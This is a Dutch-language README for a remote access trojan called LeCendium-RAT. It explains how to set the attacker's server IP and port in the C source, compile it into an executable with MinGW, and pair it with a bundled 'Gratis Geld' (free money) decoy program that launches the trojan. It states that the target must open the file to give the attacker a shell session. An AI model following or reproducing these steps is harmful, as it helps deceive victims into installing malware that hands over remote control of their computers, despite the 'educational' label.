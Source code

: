 # LeCendium-RAT
- Deze RAT (Remote Administration Tool) is gemaakt voor educatieve doeleinden.

### Beschrijving
LeCendium zichzelf is gemaakt in C. Het bijgeleverde 'Gratis Geld' programma, is maar een eenvoudig voorbeeld hoe je deze RAT kan inzetten.
Het 'Gratis Geld' programma is gemaakt in C#. Ook hier zijn de code bestanden van beschikbaar.

### Vereisten voor gebruik
- Notepad++ of een IDE.
- MinGW
- Windows 7+ met administrator rechten.

### Editen naar persoonlijke voorkeuren
- Voor het editen naar persoonlijke voorkeuren, heb je de bovenstaande vereisten nodig.

- Open GratisVirus.c met jouw IDE (Sublime Text, Atom, etc)
- Verander de volgende 2 regels naar jouw ServerIP en Port voor connectie.
- Regel 143: ` ServIP = "192.168.198.130";`
- Regel 144: ` ServPort = 4444;`
- Stop de GratisVirus.c file in de bin directory van mingw32.

- Wanneer je klaar bent met het editen van deze gegevens, op je CMD (ALS ADMINISTRATOR)
- Change Directory naar de bin van MinGW. (` cd C:\Program Files (x86)\mingw-w64\i686-8.1.0-posix-dwarf-rt_v6-rev0\mingw32\bin`
- Voer in CMD het volgende in : ` gcc GratisVirus.c naamvanexebestand -lwininet -lwsock32` (Dit maakt een .exe bestand van de .c file)
De gebruiker of (target), zal dit .exe bestand moeten openen om een shellsessie te creëren.

#### Note:
- Wanneer je de exe file aanpast van GratisVirus.exe naar jouw eigen naam.exe, en het meegeleverde GratisGeld programma hierbij wilt gebruiken, moet je het GratisGeld programma wijzigen. Dit doe je met Visual Studio.

Verander in het bestand 'GeldProgramma/FreeSpyWare2019/Form1.cs' regel 34 aan.
- ` string file = @"GeldVirus.exe";` Naar jouw bestandsnaam.exe.
